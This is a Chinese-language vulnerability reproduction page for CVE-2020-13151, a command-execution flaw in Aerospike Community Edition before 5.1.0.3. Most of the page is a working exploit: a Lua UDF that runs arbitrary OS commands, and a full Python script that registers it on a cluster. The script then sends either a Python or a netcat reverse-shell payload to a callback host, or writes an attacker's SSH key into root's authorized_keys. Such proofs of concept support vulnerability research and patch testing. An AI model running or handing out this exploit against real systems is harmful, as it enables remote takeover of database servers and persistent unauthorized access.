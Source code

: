 <h1>（CVE-2020-13151）Aerospike 数据库主机命令执行漏洞</h1>
<h2>一、漏洞简介</h2>
<p>攻击者借助特制的UDF利用该漏洞以当前用户权限在该集群的所有节点上执行任意的操作系统命令。</p>
<h2>二、漏洞影响</h2>
<p>Aerospike 社区版 <5.1.0.3</p>
<h2>三、复现过程</h2>
<p>首先导入CVE-2020-13151.lua</p>
<pre><code>function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end</pre></code>
<p>
3.png<br>
创建单记录测试数据集以进行以下操作：<br>
4.png<br>
然后在最终在我们连接的主机上执行命令：<br>
5.png<br>
</p>
<h3>poc</h3>
<p>
CVE-2020-13151<br>
1.png<br>
2.png<br>
</p>
<pre><code>#!/usr/bin/env python3
import argparse
import random
import os, sys
from time import sleep
import string

# requires aerospike package from pip
import aerospike
# if this isn't installing, make sure os dependencies are met
# sudo apt-get install python-dev
# sudo apt-get install libssl-dev
# sudo apt-get install python-pip
# sudo apt-get install zlib1g-dev

PYTHONSHELL = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{ip}",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'&"""
NETCATSHELL = 'rm /tmp/ft;mkfifo /tmp/ft;cat /tmp/ft|/bin/sh -i 2>&1|nc {ip} {port} >/tmp/ft&'

def _get_client(cfg):
    try:
        return aerospike.client({
            'hosts': [(cfg.ahost, cfg.aport)],
             'policies': {'timeout': 8000}}).connect()

    except Exception as e:
        print(f"unable to access cluster @ {cfg.ahost}:{cfg.aport}\n{e.msg}")

def _send(client, cfg, _cmd):
    try:
        print(client.apply((cfg.namespace, cfg.setname, cfg.dummystring ), 'poc', 'runCMD', [_cmd]))
    except Exception as e:
        print(f"[-] UDF execution returned {e.msg}")

def _register_udf(client, cfg):
    try:
        client.udf_put(cfg.udfpath)
    except Exception as e:
        print(f"[-] whoops, couldn't register the udf {cfg.udfpath}")
        raise e

def _random_string(l):
    return ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(l)])

def _populate_table(client, cfg):
    ns = cfg.namespace
    setname = cfg.setname
    print(f"[+] writing to {ns}.{setname}")
    try:
        rec = cfg.dummystring
        client.put((ns, setname, rec), {'pk':cfg.dummystring})
        print(f"[+] wrote {rec}")
    except Exception as e:
        print(f"[-] unable to write record: {e.msg}")
        try:
            if e.msg.startswith('Invalid namespace'):
                print("Valid namespaces: ")
                for n in _info_parse("namespaces", client).split(";"):
                    print(n.strip())
        except:
            pass
        sys.exit(13)

def _info_parse(k, client):
    try: 
        return [i[1] for i in client.info_all(k).values() ][0]
    except Exception as e:
        print(f"error retrieving information: {e.msg}")
        return []

def _is_vuln(_mj, _mi, _pt, _bd):
    fixed = [5,1,0,3]
    found = [_mj, _mi, _pt, _bd]

    if fixed == found:
        return False

    for ix, val in enumerate(found):
        if val < fixed[ix]:
            return True
        elif val == fixed[ix]:
            pass
        else:
            return False


def _version_check(client):
    print("[+] aerospike build info: ", end="")
    try:
        _ver = _info_parse("build", client)
        print(_ver)
        mj, mi, pt, bd = [int(i) for i in _ver.split('.')]
        if _is_vuln(mj, mi, pt, bd):
            print("[+] looks vulnerable")
            return
        else:
            print(f"[-] this instance is patched.")
            sys.exit(0)

    except Exception as e:
        print(f"[+] unable to interpret build number due to {e}")
        print("[+] continuing anyway... ")

def _exploit(cfg):
    client = _get_client(cfg)
    
    if not client:
        return

    _version_check(client)

    print(f"[+] populating dummy table.")
    _populate_table(client, cfg)

    print(f"[+] registering udf")
    
    _register_udf(client, cfg)

    if cfg.pythonshell or cfg.netcatshell:
        sys.stdout.flush()
        print(f"[+] sending payload, make sure you have a listener on {cfg.lhost}:{cfg.lport}", end="")
        sys.stdout.flush()
        for i in range(4): 
            print(".", end="")
            sys.stdout.flush()
            sleep(1)

        print(".")
        _send(client, cfg, PYTHONSHELL.format(ip=cfg.lhost,port=cfg.lport) if cfg.pythonshell else NETCATSHELL.format(ip=cfg.lhost,port=cfg.lport) )
    
    if cfg.cmd:
        print(f"[+] issuing command \"{cfg.cmd}\"")
        _send(client, cfg, cfg.cmd)

if __name__ == '__main__':
    if len(sys.argv) == 1:
        print(f"[+] usage examples:\n{sys.argv[0]} --ahost 10.11.12.13 --pythonshell --lhost=10.0.0.1 --lport=8000")
        print("... or ... ")
        print(f"{sys.argv[0]} --ahost 10.11.12.13 --cmd 'echo MYPUBKEY > /root/.ssh/authorized_keys'")
        sys.exit(0)

    parser = argparse.ArgumentParser(description='Aerospike UDF Command Execution - CVE-2020-13151 - POC')
    
    parser.add_argument("--ahost", help="Aerospike host, default 127.0.0.1", default="127.0.0.1")
    parser.add_argument("--aport", help="Aerospike port, default 3000", default=3000, type=int)
    parser.add_argument("--namespace", help="Namespace in which to create the record set", default="test")
    parser.add_argument("--setname", help="Name of set to populate with dummy record(s), default is cve202013151", default=None)
    parser.add_argument('--dummystring', help="leave blank for a random value, can use a previously written key to target a specific cluster node", default=None)
    parser.add_argument("--pythonshell", help="attempt to use a python reverse shell (requires lhost and lport)", action="store_true")
    parser.add_argument("--netcatshell", help="attempt to use a netcat reverse shell (requires lhost and lport)", action="store_true")
    parser.add_argument("--lhost", help="host to use for reverse shell callback")
    parser.add_argument("--lport", help="port to use for reverse shell callback")
    parser.add_argument("--cmd", help="custom command to issue against the underlying host")
    parser.add_argument('--udfpath', help="where is the udf to distribute? defaults to `pwd`/poc.lua", default=None)

    cfg = parser.parse_args()
    if not cfg.setname:
        cfg.setname = 'cve202013151'
    if not cfg.dummystring:
        cfg.dummystring = _random_string(16)
    if not cfg.udfpath:
        cfg.udfpath = os.path.join(os.getcwd(), 'poc.lua')

    assert cfg.cmd or (cfg.lhost and cfg.lport and (cfg.pythonshell or cfg.netcatshell)), "Must specify a command, or a reverse shell + lhost + lport"
    if cfg.pythonshell or cfg.netcatshell:
        assert cfg.lhost and cfg.lport, "Must specify lhost and lport if using a reverse shell"

    _exploit(cfg)</pre></code>
